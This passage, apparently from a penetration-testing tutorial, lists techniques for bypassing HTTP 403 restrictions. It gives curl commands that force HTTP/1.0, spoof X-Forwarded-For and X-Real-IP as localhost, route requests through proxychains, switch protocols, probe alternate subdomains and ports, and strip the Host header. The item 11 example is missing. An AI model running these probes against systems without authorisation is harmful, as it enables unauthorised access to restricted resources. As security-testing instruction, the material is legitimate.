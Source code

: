 curl -http1.0 https://example.com/admin
curl -http1.0 https://example.com/secret
curl -http1.0 https://example.com/config
curl -http1.0 https://example.com/dashboard
By specifying -http1.0 you’re forcing the request to use HTTP/1.0, which may bypass certain security mechanisms that are only enforced in HTTP/1.1 or newer protocols.

8. Bypass with Proxy or IP Spoofing
Some 403 errors occur due to IP-based restrictions. These can sometimes be bypassed by changing your IP address or spoofing headers.

Examples

Using a proxy/VPN:

proxychains curl http://example.com/private/
Spoofing IP headers (may work on misconfigured servers):

curl -H "X-Forwarded-For: 127.0.0.1" http://example.com/private/
curl -H "X-Real-IP: 127.0.0.1" http://example.com/private/
9. Switch Between HTTP and HTTPS
Some misconfigured servers apply access controls differently based on the protocol. Switching from https to http (or vice versa) can sometimes bypass restrictions.

Examples

curl http://example.com/private/
curl https://example.com/private/
http://example.com/private/https://example.com/private/
10. Explore Alternate Subdomains & Ports
Access restrictions like 403 errors may only apply to the main domain but the same endpoints might be exposed on other subdomains or non-standard ports.

Examples

Try variations like:

https://admin.example.com/admin

https://dev.example.com/admin

https://example.com:8080/admin

https://example.com:8443/admin

https://example.com:8000/admin
Misconfigured services often forget to secure alternate entry points scanning these can reveal hidden access or bypasses.

11. Skipping the Host Header: A Sneaky Bypass Trick
Sometimes removing the Host header from an HTTP request can trigger misconfigured backend behavior. If the server or a proxy isn’t set up correctly it may default the Host value to 127.0.0.1 or localhost, effectively treating the request as internal. This can unintentionally grant access to 403-restricted endpoints.

Example


This trick works when the server auto-fills the missing Host with a trusted internal value, common in legacy setups or misconfigured proxies.
